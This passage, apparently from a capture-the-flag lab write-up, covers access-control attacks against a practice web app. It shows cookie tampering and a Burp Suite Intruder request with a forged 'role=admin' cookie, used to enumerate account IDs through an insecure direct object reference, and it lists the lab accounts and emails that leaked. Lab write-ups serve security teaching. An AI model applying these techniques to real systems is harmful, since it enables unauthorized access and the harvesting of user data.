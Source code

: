 Holy crap. There's no session token! The Cookie contains all of the User ID information!

If I try to go to <http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads>, I get the message,

> This action require super admin rights.

If I change my cookie with Burp Suite, I might be able to get different responses.

I noticed that if I change the `user` cookie to something other than `34322`, I get logged out, but if I change the `role`, nothing happens.

I was also going to use a 'intruder' attack from Burp Suite to see what 'id' values I could get from the site.

```
GET /cdn-cgi/login/admin.php?content=accounts&id=§foo§ HTTP/1.1
Host: 10.10.10.28
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.28/cdn-cgi/login/admin.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=34322; role=admin
Connection: close
```

From 1-100, these IDs existed, and gave these results from the `/cdn-cgi/login/admin.php?content=accounts&id=§foo§` page.

-   n (format)
    -   access id:name:email
-   1
    -   34322:admin:admin@megacorp.com
-   4
    -   8832:john:john@tafcz.co.uk
-   13
    -   57633:Peter:peter@qpic.co.uk
-   23
    -   28832:Rafol:tom@rafol.co.uk
-   30
    -   86575:super admin:superadmin@megacorp.com

Also, this page (from repeating requests with OWASP ZAP):

<http://10.10.10.28/cdn-cgi/login/admin.php?content=branding&brandId=1>

Has the brandIds:

-   n
    -   brand id:model:price
-   1
    -   1:MC-1023:$100,240
-   10
    -   10:MC-1123:$110,240
-   20
    -   20:MC-2123:$110,340
